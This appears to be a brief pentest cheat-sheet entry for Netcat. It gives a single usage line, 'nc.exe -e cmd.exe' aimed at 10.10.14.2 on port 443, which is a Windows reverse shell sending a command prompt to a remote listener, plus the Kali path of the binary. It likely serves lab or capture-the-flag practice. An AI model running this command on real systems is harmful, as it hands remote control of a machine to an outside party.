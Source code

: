 # Name
Netcat

## Usage
```
nc.exe -e cmd.exe 10.10.14.2 443
```

## Source
/usr/share/windows-binaries/nc.exe

